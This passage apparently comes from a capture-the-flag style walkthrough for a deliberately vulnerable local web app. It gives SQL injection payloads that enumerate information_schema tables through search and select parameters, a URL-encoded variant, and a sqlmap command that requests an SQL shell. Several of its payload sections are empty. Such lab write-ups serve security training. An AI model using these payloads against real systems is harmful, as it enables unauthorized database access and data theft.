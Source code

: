 Payload: 
```
``` 

## 💀  SQL Injection (POST/Search) 💀

url: /sqli_6.php

```
a%' UNION ALL SELECT table_schema,table_name, null, null, null, null, null from information_schema.tables;--
```
or research more using sqlmap execute the following command
```
sqlmap -u "http://127.0.0.1:9000/sqli_6.php" --cookie="PHPS
ESSID=3agpar2ogveldop3d3psvfsfmt; security_level=0" --data "title=test&action=search" -p title –sql-shell

```

### Security level: low

Payload: 
```
``` 
### Security level: medium

Payload: 
```
``` 
### Security level: high

Payload: 
```
``` 

## 💀  SQL Injection (POST/Select) 💀

Use Burp

```
movie=1 UNION ALL SELECT table_schema, table_name, null, null, null, null, null FROM information_schema.tables LIMIT 1 OFFSET 1;--
```
or burp code
```
1%20UNION%20ALL%20SELECT%20table_schema%2c%20table_name%2c%20null%2c%20null%2c%20null%2c%20null%2c%20null%20FROM%20information_schema.tables%20LIMIT%201%20OFFSET%201%3b--
```

### Security level: low

Payload: 
```
``` 
### Security level: medium
